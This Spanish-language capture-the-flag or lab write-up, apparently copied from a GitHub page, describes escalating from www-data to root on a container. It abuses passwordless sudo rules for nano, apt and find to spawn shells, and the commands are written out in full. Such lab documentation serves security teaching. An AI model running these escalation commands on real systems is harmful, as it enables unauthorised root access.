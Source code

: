 ###### Usuario `[ www-data ]`:
Revisando los permisos de este usuario:
```bash
User cafetero may run the following commands on 459dc4bf8948:
    (john) NOPASSWD: /usr/bin/nano
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( john )
sudo -u john /usr/bin/nano
ctrl + R
ctrl + X
reset; sh 1>&0 2>&0
```

###### Usuario `[ john ]`:
Listando los permisos de este usuario:
```bash
User john may run the following commands on 459dc4bf8948:
    (bobby) NOPASSWD: /usr/bin/apt
```

Explotamos el privilegio:
```bash
sudo -u bobby /usr/bin/apt
apt changelog apt
!/bin/sh
```

###### Usuario `[ bobby ]`:
Listando los permisos para este usuario:
```bash
User bobby may run the following commands on 459dc4bf8948:
    (root) NOPASSWD: /usr/bin/find
```

Explotando el privilegio de este usuario:
```bash
sudo -u root /usr/bin/find . -exec /bin/bash -p \; -quit
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@459dc4bf8948:/home/cafetero# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a subir archivos maliciosos al servidor
2. Aprendimos a ejecutar un ataque de extensiones
3. Aprendimos a explotar el binario **find** para obtener una sesion como **root**

## Recomendaciones de Seguridad
- Verificar la subida de archivos